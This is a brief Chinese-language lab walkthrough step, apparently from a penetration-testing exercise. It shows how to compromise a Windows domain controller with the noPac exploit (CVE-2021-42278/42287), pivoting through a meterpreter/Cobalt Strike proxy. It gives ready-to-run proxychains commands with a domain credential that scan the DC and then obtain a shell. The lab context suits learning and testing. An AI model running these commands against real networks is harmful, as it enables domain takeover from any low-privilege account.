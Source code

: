 <img src=".\图片\Snipaste_2023-05-21_13-49-46.png" alt="Snipaste_2023-05-21_13-49-46" style="zoom:80%;" />

# 域控

## 前置

 CVE-2021-42278 and CVE-2021-42287 攻击域控

前提条件：一个域内普通账号
影响版本：Windows基本全系列

工具地址：https://github.com/Ridter/noPac

还是在 win7 的 meterpreter 里开启代理，使攻击机能摸到 10.10.10.0/24 网段的域控，以下是用 cs 开的代理

## 第四台19server-ad01

检测：

```bash
└─# proxychains4 python3 scanner.py -use-ldap nasa/test:QWEasd\!@#999 -dc-ip 10.10.10.140
```

利用直接获取 shell

```bash
└─# proxychains4 python3 noPac.py -use-ldap nasa/test:QWEasd\!@#999 -dc-ip 10.10.10.140 -shell
```

